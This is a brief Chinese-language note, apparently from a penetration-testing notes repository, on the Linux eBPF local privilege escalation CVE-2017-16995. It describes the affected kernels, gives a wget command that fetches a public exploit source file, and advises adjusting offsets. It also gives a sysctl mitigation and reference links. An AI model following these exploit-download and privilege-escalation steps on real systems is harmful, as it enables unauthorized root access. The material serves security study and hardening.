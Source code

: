 # upstream44提权(CVE-2017-16995)

该漏洞存在于带有 eBPF bpf(2)系统（CONFIG_BPF_SYSCALL）编译支持的Linux内核中，是一个内存任意读写漏洞。该漏洞是由于eBPF验证模块的计算错误产生的。普通用户可以构造特殊的BPF来触发该漏洞，此外恶意攻击者也可以使用该漏洞来进行本地提权操作。

影响版本

Linux Kernel Version 4.14-4.4 （主要影响Debian和Ubuntu发行版，Redhat和CentOS不受影响）


wget http://cyseclabs.com/exploits/upstream44.c

自己调offset

![](pic/upstream44提权1.jpg)


![](pic/upstream44提权2.jpg)

文件：

[upstream44提权](script/upstream44.c)


目前暂未有明确的补丁升级方案。 临时建议用户在评估风险后，通过修改内核参数限制普通用户使用bpf(2)系统调用：

echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled

 

## 资料
https://www.exploit-db.com/exploits/39772/

https://blog.aquasec.com/ebpf-vulnerability-cve-2017-16995-when-the-doorman-becomes-the-backdoor?utmcampaign=General%20website&utmcontent=67375488&utmmedium=social&utmsource=twitter

https://bugs.chromium.org/p/project-zero/issues/detail?id=1454&desc=3

http://cyseclabs.com/exploits/upstream44.c

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f